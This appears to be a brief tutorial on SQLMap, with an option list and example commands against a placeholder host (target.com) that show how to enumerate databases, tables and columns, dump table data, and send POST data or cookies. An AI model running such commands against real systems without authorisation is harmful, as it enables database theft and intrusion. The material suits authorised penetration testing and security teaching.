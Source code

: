 **Basic SQLMap Usage:**

The core of SQLMap revolves around targeting a vulnerable URL or HTTP request. Here's a fundamental example:

```bash
sqlmap -u "http://target.com/vulnerable.php?id=1"
```

* `sqlmap`: The command to launch SQLMap.
* `-u "http://target.com/vulnerable.php?id=1"`: Specifies the target URL. SQLMap will analyze this URL for potential SQL injection points.

**Key SQLMap Options:**

* **`-u <url>`:** Target URL.
* **`--dbs`:** Enumerate database management system databases.
* **`-D <database_name> --tables`:** Enumerate tables of a specific database.
* **`-D <database_name> -T <table_name> --columns`:** Enumerate columns of a specific table.
* **`-D <database_name> -T <table_name> -C <column1,column2,...> --dump`:** Dump data from specific columns of a table.
* **`--batch`:** Automatically select default options, avoiding interactive prompts.
* **`--level=<level>`:** Level of tests to perform (1-5, higher levels are more thorough but slower).
* **`--risk=<risk>`:** Risk level (1-3, higher risks include more intrusive tests).
* **`--random-agent`:** Use a random HTTP User-Agent header.
* **`--proxy=<proxy>`:** Use a proxy server.
* **`--cookie=<cookie>`:** Provide cookie data.
* **`--data=<data>`:** POST data.

**Example Scenarios:**

1.  **Enumerating Databases:**

    ```bash
    sqlmap -u "http://target.com/vulnerabilities/sqli/?id=1" --dbs --batch
    ```

2.  **Enumerating Tables:**

    ```bash
    sqlmap -u "http://target.com/vulnerable/sqli?id=1" -D <database_name> --tables --batch
    ```

3.  **Enumerating Columns:**

    ```bash
    sqlmap -u "http://target.com/vulnerable/sqli?id=1" -D <database_name> -T <table_name> --columns --batch
    ```

4.  **Dumping Data:**

    ```bash
    sqlmap -u "http://target.com/vulnerable/sqli?id=1" -D <database_name> -T <table_name> -C <column1,column2> --dump --batch
    ```

5.  **Using POST Data:**

    ```bash
    sqlmap -u "http://target.com/login.php" --data="username=test&password=test" --batch
    ```

6.  **Using Cookies:**

    ```bash
    sqlmap -u "http://target.com/profile.php" --cookie="sessionid=12345" --batch
    ```
